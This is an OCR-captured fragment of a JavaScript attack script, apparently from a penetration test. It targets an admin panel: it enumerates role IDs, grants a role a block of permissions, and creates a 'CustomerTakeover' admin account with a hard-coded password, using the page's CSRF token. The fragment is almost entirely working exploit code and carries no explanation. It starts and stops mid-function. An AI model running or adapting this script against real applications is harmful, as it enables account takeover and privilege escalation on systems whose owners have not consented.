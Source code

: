 ```JS
    data.append('permission[]', '77');
    data.append('permission[]', '78');
    data.append('permission[]', '79');
    data.append('permission[]', '80');
    data.append('permission[]', '81');
    data.append('permission[]', '82');
    data.append('permission[]', '83');
    data.append('permission[]', '84');
    data.append('permission[]', '85');
    data.append('permission[]', '86');
    data.append('permission[]', '87');
    data.append('permission[]', '88');
    data.append('permission[]', '89');
    data.append('permission[]', '90');
    data.append('permission[]', '91');
    console.log(`Patching Role ${roleNumber}`);
    return fetch(`http://application.com/app/public/admin/roles/${roleNumber}`, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: data
    });
}



function postData(roleNumber) {
    let data = new URLSearchParams();
    data.append('_token', csrfToken);
    data.append('name', 'CustomerTakeover');
    data.append('email', 'CustomerTakeover@pentest.co');
    data.append('password', 'CustomerTakeover123456#');
    data.append('confirm-password', 'CustomerTakeover123456#');
    data.append('role', roleNumber.toString());

    return fetch('http://application.com/app/public/admin/users', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: data
    });
}



function findRole(i, max) {
    if (i > max) {
        console.error("Role not found up to number:", max);
        return;
    }

    fetch(`http://application.com/app/public/admin/roles/${i}/edit`)
        .then(response => {
            if (response.status !== 500) {
                console.log(`Role number found: ${i}`);
                return patchRole(i)
                    .then(() => postData(i))
                    .then(response => response.text())
                    .then(data => {
                        console.log('User Creation Success:', data);
                    });
```